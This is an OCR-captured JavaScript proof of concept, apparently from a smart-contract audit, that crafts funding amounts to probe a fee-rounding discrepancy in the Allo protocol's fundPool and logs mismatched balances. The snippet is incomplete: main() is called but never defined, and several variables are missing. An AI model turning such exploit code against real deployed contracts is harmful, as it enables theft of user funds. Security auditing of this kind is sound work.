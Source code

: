 ```javascript
// Create a pool
const PROFILE_ID = ethers.utils.formatBytes32String("exampleProfile");
const INIT_STRATEGY_DATA = ethers.utils.toUtf8Bytes("exampleData");
const METADATA = {
    name: "example pool",
    description: "example description",
    extra: "Any extra data we want to declare"
};
const MANAGERS = [deployer.address];

const poolId = await allo.createPool(
    PROFILE_ID,
    STRATEGY_ADDRESS,
    INIT_STRATEGY_DATA,
    TOKEN_ADDRESS,
    baseFee, // Using baseFee as an example amount
    METADATA,
    MANAGERS
);

// Determine the fee structure
const feeDenominator = await allo.getFeeDenominator();

// Craft the amount to exploit the fee discrepancy
const MAX_ITERATIONS = 100;  // Arbitrarily chosen. Adjust as needed.

for (let i = 0; i < MAX_ITERATIONS; i++) {
    const chosenAmount = ((feeDenominator.sub(1)).add(feeDenominator.mul(i))).div(percentFee);

    await allo.fundPool(poolId, chosenAmount);

    // Now, let's check the discrepancy
    const strategyAddress = (await allo.pools(poolId)).strategy;
    const strategyBalance = await ethers.provider.getBalance(strategyAddress);
    const expectedBalance = chosenAmount.sub((chosenAmount.mul(percentFee)).div(feeDenominator));

    console.log(`Iteration ${i}`);
    console.log("Expected balance in strategy:", expectedBalance.toString());
    console.log("Actual balance in strategy:", strategyBalance.toString());

    if(!expectedBalance.eq(strategyBalance)) {
        console.error("Discrepancy found in iteration ", i);
    }
}

main().catch(error => {
    console.error(error);
    process.exit(1);
});
```
